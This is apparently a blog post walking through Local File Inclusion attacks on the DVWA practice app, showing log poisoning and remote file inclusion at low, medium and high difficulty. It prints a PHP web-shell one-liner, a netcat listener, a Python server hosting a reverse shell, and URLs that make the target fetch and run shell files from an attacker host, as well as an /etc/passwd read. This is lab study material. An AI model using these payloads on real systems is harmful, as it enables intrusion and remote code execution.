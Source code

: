 ```yaml
---
title: "Local File Inclusion"
date: 2024-12-23T16:06:04+01:00
draft: false
tags: ["Caido", "LFI", "Web"]
categories: ["Hacking"]
description: "A practical guide to exploiting Local File Inclusion (LFI) vulnerabilities in DVWA. Learn how attackers can access sensitive files, achieve code execution, and escalate privileges using LFI techniques. This guide covers real-world payloads, log poisoning, remote file inclusion, and tips for detection and prevention, with hands-on examples and screenshots."
---
```

Local File Inclusion is an attack technique in which attackers trick a web application into either running or exposing files on a web server. LFI attacks can expose sensitive information, and in severe cases, they can lead to cross-site scripting (XSS) and remote code execution. LFI is listed as one of the OWASP Top 10 web application vulnerabilities.

File inclusions are a key to any server-side scripting language, and allow the content of files to be used as part of web application code. Here is an example of how LFI can enable attackers to extract sensitive information from a server. If the application uses code like this, which includes the name of a file in the URL:

https://www.brightsec.com/blog/local-file-inclusion-lfi/

Use Burpsuite or Caido you need to get this into the apache log file.

```<?php echo system($_GET['cmd']); ?>```

![](1.png)

![](2.png)

../../../../../../../../../var/log/apache2/access.log

![](3.png)

Low:

![](4.png)

![](5.png)

![](6.png)

![](7.png)

![](8.png)

Host a python server where your malicious file is located.

`sudo python -m http.server 1337`

![](9.png)


Listen for the host's shell. `nc -nvlp 1234`

![](10.png)

Pass a php reverse shell file to the host server via the url:

![](11.png)

`192.168.10.123/dvwa/vulnerabilities/fi/?page=http://192.168.10.121:1337/shell.php`

![](12.png)


Boom!

Medium:
code will remove the `../` in `....//....//` leaving: `../../`

![Screenshot](13.png)

![Screenshot](14.png)

![Screenshot](15.png)


`192.168.10.123/dvwa/vulnerabilities/fi/?page=http://http://192.168.10.121:1337/shell.php`

High:

`http://192.168.10.123/dvwa/vulnerabilities/fi/?page=file:///etc/passwd`

![Screenshot](16.png)

![Screenshot](17.png)

![Screenshot](18.png)

`http://192.168.10.123/dvwa/vulnerabilities/fi/?page=http://192.168.10.121:1337/backdoor.php&cmd=ls`

![Screenshot](19.png)



Resources:

https://www.offsec.com/metasploit-unleashed/file-inclusion-vulnerabilities/

https://blog.certcube.com/detailed-cheatsheet-lfi-rce-webshells/